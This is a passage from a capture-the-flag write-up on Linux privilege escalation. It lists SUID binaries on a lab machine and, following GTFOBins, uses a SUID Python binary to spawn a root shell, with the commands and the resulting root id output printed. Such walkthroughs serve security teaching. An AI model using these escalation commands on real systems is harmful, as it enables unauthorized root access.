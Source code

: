 /snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
</code></pre>

> /usr/bin/python

#### 4.2 - Find a form to escalate your privileges.

Now here we will search our gtfobins to search for any binary and I found this: [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

Write this code in your shell:

```bash
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

#### 4.3 - root.txt \[flag]

Navigate to the root directory and we will find our root flag.

```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
cd root
ls
root.txt
cat root.txt
```

<details><summary>🚩 root.txt [Flag]</summary></details>

[^1]: 
